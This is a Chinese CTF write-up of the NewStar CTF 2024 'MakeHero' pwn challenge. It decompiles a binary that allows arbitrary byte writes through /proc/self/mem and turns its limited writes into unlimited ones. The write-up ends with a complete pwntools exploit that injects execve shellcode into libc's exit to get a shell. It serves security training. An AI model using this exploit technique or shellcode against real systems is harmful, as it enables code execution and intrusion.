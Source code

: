 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# MakeHero

## 逆向分析

固定步骤，拖入 IDA 分析

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  unsigned __int8 v4; // [rsp+3h] [rbp-8Dh] BYREF
  int v5; // [rsp+4h] [rbp-8Ch]
  unsigned __int64 v6; // [rsp+8h] [rbp-88h] BYREF
  char v7[120]; // [rsp+10h] [rbp-80h] BYREF
  unsigned __int64 v8; // [rsp+88h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  sub_1430(a1, a2, a3);
  v5 = 2;
  puts("Welcome to NewStarCTF week4!");
  puts(aEek4);
  printf(asc_20F8);
  __isoc99_scanf("%100s", v7);
  printf(aS, v7);
  puts(asc_2158);
  while ( 1 )
  {
    if ( !v5-- )
    {
      puts(asc_2270);
      sleep(3u);
      printf(asc_22B1, v7);
      exit(0);
    }
    printf(asc_217F);
    puts(asc_2198);
    if ( (unsigned int)__isoc99_scanf("%lx %hhx", &v6, &v4) != 2 )
    {
      puts(asc_2208);
      puts(asc_2233);
      exit(-1);
    }
    if ( v5 == 1 )
    {
      if ( v6 < qword_4060 || v6 >= qword_4068 )
        goto LABEL_7;
LABEL_11:
      sub_1369(v6, v4);
    }
    else
    {
      if ( v6 >= qword_4050 && v6 < qword_4058 )
        goto LABEL_11;
LABEL_7:
      puts(aOhNo);
    }
  }
}
```

```c
int __fastcall sub_1369(__off_t a1, char a2)
{
  char buf[4]; // [rsp+4h] [rbp-1Ch] BYREF
  __off_t offset; // [rsp+8h] [rbp-18h]
  int fd; // [rsp+1Ch] [rbp-4h]

  offset = a1;
  buf[0] = a2;
  fd = open("/proc/self/mem", 2);
  if ( fd == -1 )
  {
    perror("open /proc/self/mem");
    exit(1);
  }
  if ( lseek(fd, offset, 0) == -1 )
  {
    perror("lseek");
    close(fd);
    exit(1);
  }
  if ( write(fd, buf, 1uLL) != 1 )
    perror("write");
  return close(fd);
}
```

可知，程序实现了通过 `/proc/self/mem` 实现了任意地址的改写

:::tip
程序是通过 `open("/proc/self/mem")` 的方式实现改写，因此无视各地址段的读写权限
:::

![读入](/assets/images/wp/2024/week4/makehero_1.png)

程序读入两个数字，`%lx` 是地址，`%hhx` 是要改的字节

![限制输入范围](/assets/images/wp/2024/week4/makehero_2.png)

其中，程序对 `v6` 的取值做了限制

在 `sub_1430` 函数中，对这几个全局变量做了初始化

![全局变量初始化](/assets/images/wp/2024/week4/makehero_3.png)

结合 gdb 动调时的地址分布，我们可知，`qword_4060` 和 `qword_4068` 是程序 ELF `的地址，qword_4050` 和 `qword_4058` 是程序 libc 的地址

## Pwn it

程序能任意写两次，第一次能改写 ELF，第二次能改写 libc，仅有的两次机会是不足以让我们拿到 flag 的，我们需要通过仅有的两次机会来让我们获得「无限次」的机会

分析发现，程序的退出点在这里

![程序的退出点](/assets/images/wp/2024/week4/makehero_4.png)

因此我们能否通过修改跳转条件或是其他，来让程序不执行退出呢

![修改跳转条件](/assets/images/wp/2024/week4/makehero_5.png)

我们或许可以通过改 jnz 为其他条件跳转来实现一直执行，也可以让 `v5--` 变为 `v5++` 来实现「无限次」任意写

![修改v5](/assets/images/wp/2024/week4/makehero_6.png)

在这，我选择修改 `--` 为 `++`，就是将 `8D 50 FF` 改为 `8D 50 01`

![修改v5](/assets/images/wp/2024/week4/makehero_7.png)

改完后，我们能一直任意写，剩下的就很多种解法了

我选择将exit处代码改为shellcode，getshell

```python
#!/usr/bin/env python3
from pwn import *

context(log_level='debug', arch='amd64', os='linux')
context.terminal = ["tmux", "splitw", "-h"]
uu64 = lambda x: u64(x.ljust(8, b'\x00'))
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
r = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)

p = process('./MakeHero')
libc = ELF("./libc.so.6")

def u8_ex(data) -> int:
    assert isinstance(data, (str, bytes)), "wrong data type!"
    length = len(data)
    assert length <= 1, "len(data) > 1!"
    if isinstance(data, str):
        data = data.encode('latin-1')
    data = data.ljust(1, b"\x00")
    return unpack(data, 8)

def write_mem(addr, byte):
    if isinstance(byte, bytes):
        sla(b'\x89\xef\xbc\x81', hex(addr) + ' ' + hex(u8_ex(byte)))
    elif isinstance(byte, int):
        sla(b'\x89\xef\xbc\x81', hex(addr) + ' ' + hex(byte))

def write_code(addr, code):
    for i in range(len(code)):
        write_mem(addr + i, code[i])

ru(b'** ')
code_base = int(p.recvuntil(b' -', drop=True), 16)

ru(b'## ')
libc_base = int(p.recvuntil(b' -', drop=True), 16)

sl(b'inkey')

write_mem(code_base + 0x1877, 0x1)
write_mem(libc_base + libc.sym.exit + 4, b'\x90')
write_mem(code_base + 0x1877, 0x1)
write_code(libc_base + libc.sym.exit + 5, b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")
sl(b'bye')

p.interactive()
```

这题既能改elf，也能改libc，应该会有很多不一样的解法吧（
